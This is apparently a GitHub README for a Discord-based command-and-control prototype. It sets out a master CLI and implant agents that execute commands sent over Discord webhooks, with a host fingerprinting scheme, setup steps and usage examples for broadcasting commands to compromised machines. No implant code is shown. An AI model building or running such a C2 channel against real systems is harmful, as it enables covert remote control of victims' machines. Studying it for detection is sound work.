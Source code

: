 # Discord-Based Command & Control (C2) Prototype

**⚠️ WARNING: FOR EDUCATIONAL PURPOSES ONLY**  
This project demonstrates security concepts and should never be used for malicious purposes. Unauthorized use may violate Discord's ToS and applicable laws.

## Overview

A proof-of-concept demonstrating how Discord's API could theoretically be abused for command and control operations. The system consists of:

- **Master Controller**: CLI tool for issuing commands
- **Slave Nodes**: Implant agents that execute commands
- **Communication Protocol**: Discord channels + webhooks

## System Architecture
discord-c2-prototype/
├── master.py # Command center (CLI interface)
├── slave.py # Implant agent
├── requirements.txt # Python dependencies
└── README.md

Copy

## Protocol Design

### Communication Flow
1. **Master → Slave**: Commands sent via Discord webhook
   - Format: `[TARGET_ID] [COMMAND]`
   - Example: `a1b2c3d4 whoami /all`

2. **Slave → Master**: Responses posted in Discord channel
   - Format: 
     ```
     [SYSTEM_ID]
     [COMMAND_OUTPUT]
     ```

### Unique Identification
Each slave generates a unique ID by hashing system characteristics:
```python
SHA256(
    hostname + 
    OS_version + 
    CPU_info + 
    MAC_address + 
    primary_disk
)[:8]
Key Components
Slave Features
System fingerprinting

Command execution (30s timeout)

Output sanitization (1900 char limit)

Target filtering (* for broadcast)

Master Features
Targeted command dispatch

Response monitoring

Webhook integration

CLI interface

Prerequisites
Software Requirements
Python 3.8+

Discord developer account

Bot token with message permissions

Setup Commands
bash
Copy
# Install dependencies
pip install -r requirements.txt

# Configure environment
export DISCORD_TOKEN="your_bot_token"
export WEBHOOK_URL="your_webhook_url"
Usage Examples
Broadcast command to all slaves:

bash
Copy
python master.py send --target * --command "systeminfo"
Target specific slave:

bash
Copy
python master.py send --target a1b2c3d4 --command "ipconfig"
Monitor responses:

bash
Copy
python master.py monitor
